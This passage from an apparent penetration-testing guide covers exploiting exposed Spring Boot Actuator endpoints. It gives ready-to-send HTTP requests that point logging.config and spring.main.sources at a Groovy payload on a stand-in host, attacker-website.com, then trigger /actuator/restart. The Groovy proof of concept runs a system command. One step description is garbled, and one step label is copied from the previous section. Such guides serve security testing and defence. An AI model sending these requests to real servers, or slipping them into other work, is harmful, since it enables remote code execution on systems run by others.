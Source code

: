 2. Set `logging.config`:

    ```http
    POST /actuator/env HTTP/1.1
    Content-Type: application/json

    {
        "name": "logging.config",
        "value": "http://attacker-website.com/payload.groovy"
    }
    ```

3. Restart an application:

    ```http
    POST /actuator/restart HTTP/1.1
    Content-Type: application/json
    ```

The chain contains the following steps:

1. An attacker sets the Logback configuration file using the `logging.config` property
2. An application requests the configuration after restarting
3. `ch.qos.logback.classic.util.ContextInitializer.java` from `logback-classic` determines whether the URL `groovy` ends with
4. Groovy code from the configuration file is executed

References:
- [Spring Boot Vulnerability Exploit Check List: restart logging.config groovy RCE](https://github.com/LandGrey/SpringBootVulExploit#0x0arestart-loggingconfig-groovy-rce)

## spring.main.sources

`spring.main.sources` requires `/restart` is available.

How to exploit:

1. Host the `payload.groovy` file with the following content:

    ```groovy
    Runtime.getRuntime().exec("open -a Calculator")
    ```

2. Set `logging.config`:

    ```http
    POST /actuator/env HTTP/1.1
    Content-Type: application/json

    {
        "name": "spring.main.sources",
        "value": "http://attacker-website.com/payload.groovy"
    }
    ```

3. Restart an application:

    ```http
    POST /actuator/restart HTTP/1.1
    Content-Type: application/json
    ```

